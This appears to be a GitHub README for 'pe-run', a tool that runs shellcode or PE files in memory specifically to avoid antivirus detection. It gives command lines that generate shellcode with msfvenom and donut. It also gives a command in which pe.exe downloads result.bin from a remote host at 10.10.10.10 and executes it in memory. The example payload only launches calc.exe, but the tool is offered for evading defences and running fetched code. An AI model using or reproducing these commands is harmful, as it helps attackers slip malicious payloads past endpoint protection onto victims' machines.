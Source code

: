 # pe-run
Runs RAW or PE file in memory, avoiding AV.
First generate RAW with shellcoding.py (Requires https://github.com/TheWover/donut in current directory). 
Example of usage:

`python3 shellcoding.py -t msf -p 'msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f raw'`

`python3 shellcoding.py -t pe -p zzz.exe `

Next run pe.exe with -u params and path the url to result.bin

`pe.exe -u http://10.10.10.10/result.bin`
